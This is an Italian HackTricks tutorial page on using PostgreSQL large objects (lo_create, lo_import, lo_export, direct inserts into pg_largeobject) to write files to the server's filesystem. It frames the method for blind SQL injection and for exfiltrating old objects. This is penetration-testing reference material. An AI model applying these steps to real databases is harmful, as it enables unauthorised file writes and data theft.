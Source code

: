 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Oggetti di grandi dimensioni PostgreSQL

PostgreSQL offre una struttura nota come **oggetti di grandi dimensioni**, accessibile tramite la tabella `pg_largeobject`, progettata per memorizzare grandi tipi di dati, come immagini o documenti PDF. Questo approccio è vantaggioso rispetto alla funzione `COPY TO` in quanto consente l'**esportazione dei dati nel file system**, garantendo che venga mantenuta una replica esatta del file originale.

Per **memorizzare un file completo** all'interno di questa tabella, deve essere creato un oggetto nella tabella `pg_largeobject` (identificato da un LOID), seguito dall'inserimento di chunk di dati, ciascuno di 2KB, in questo oggetto. È fondamentale che questi chunk siano esattamente di 2KB (con la possibile eccezione dell'ultimo chunk) per garantire che la funzione di esportazione funzioni correttamente.

Per **dividere i tuoi dati binari** in chunk di 2KB, possono essere eseguiti i seguenti comandi:
```bash
split -b 2048 your_file # Creates 2KB sized files
```
Per codificare ogni file in Base64 o Hex, possono essere utilizzati i seguenti comandi:
```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```
**Importante**: Quando si automatizza questo processo, assicurarsi di inviare chunk di 2KB di byte in chiaro. I file codificati in esadecimale richiederanno 4KB di dati per chunk a causa del raddoppio delle dimensioni, mentre i file codificati in Base64 seguono la formula `ceil(n / 3) * 4`.

Il contenuto degli oggetti di grandi dimensioni può essere visualizzato per scopi di debug utilizzando:
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
#### Utilizzando `lo_creat` e Base64

Per memorizzare dati binari, viene prima creato un LOID:
```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```
In situazioni che richiedono un controllo preciso, come sfruttare un Blind SQL Injection, `lo_create` è preferito per specificare un LOID fisso.

I chunk di dati possono quindi essere inseriti come segue:
```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```
Per esportare e potenzialmente eliminare l'oggetto di grandi dimensioni dopo l'uso:
```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```
#### Utilizzando `lo_import` & Hex

La funzione `lo_import` può essere utilizzata per creare e specificare un LOID per un oggetto di grandi dimensioni:
```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```
Dopo la creazione dell'oggetto, i dati vengono inseriti per pagina, assicurando che ogni blocco non superi i 2KB:
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```
Per completare il processo, i dati vengono esportati e l'oggetto di grandi dimensioni viene eliminato:
```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```
### Limitazioni

Si nota che **i grandi oggetti possono avere ACL** (Liste di Controllo degli Accessi), potenzialmente limitando l'accesso anche agli oggetti creati dal tuo utente. Tuttavia, oggetti più vecchi con ACL permissive potrebbero essere ancora accessibili per l'exfiltrazione dei contenuti.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
